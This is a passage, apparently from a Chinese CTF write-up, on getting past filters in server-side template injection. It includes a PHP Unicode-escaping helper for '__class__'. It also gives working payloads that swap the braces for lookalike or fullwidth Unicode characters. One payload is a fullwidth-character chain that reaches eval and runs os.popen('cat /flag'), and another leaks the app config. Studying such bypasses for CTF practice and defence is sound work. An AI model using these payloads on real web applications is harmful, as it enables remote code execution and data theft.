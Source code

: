 ```
        $c = iconv('UCS-2', 'UTF-8', $c);
        $name .= $c;
      }
      else
      {
        $name .= $str;
      }
    }
  }
  return $name;
}
//Unicode编码转字符串
function unicode_decode2($str){
  $json = '{"str":"' . $str . '"}';
  $arr = json_decode($json, true);
  if (empty($arr)) return '';
  return $arr['str'];
}
echo unicode_encode('__class__');
echo unicode_decode('\u005f\u005f\u0063\u006c\u0061\u0073\u0073\u005f\u005f');
//\u005f\u005f\u0063\u006c\u0061\u0073\u0073\u005f\u005f__class__
```

### 魔改字符

这种方法是在太湖杯 easyWeb 这道题目学到的，上面所说的过滤双大括号，在一些特定的题目可以魔改`{{}}`，比如说这道题由于有个字符规范器可以把我们输入的文本标准化，所以可以使用这种方法

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LfP3o9TibDf1JBXWRqr32SuHiaeTiay7MARyDQYpAHx8LF72l72JO85Nhw780qSYIXonrcJQV7rOAUbQ/640?wx_fmt=png)

可以在 Unicode 字符网站寻找绕过的字符，直接在网址搜索`{`，就会出现类似的字符，就可以找到`︷`和`︸`了，网址：https://www.compart.com/en/unicode/U+FE38

payload 如下

```
︷︷config︸︸
%EF%B8%B7%EF%B8%B7config%EF%B8%B8%EF%B8%B8
```

还可以使用中文的字符魔改

```
｛ ｛
｝ ｝
［ ［
］ ］
＇ ＇
＂ ＂
```

payload 如下

```
｛｛url_for.__globals__［＇__builtins__＇］［＇eval＇］（＇__import__（＂os＂）.popen（＂cat /flag＂）.read（）＇）｝｝ 
```
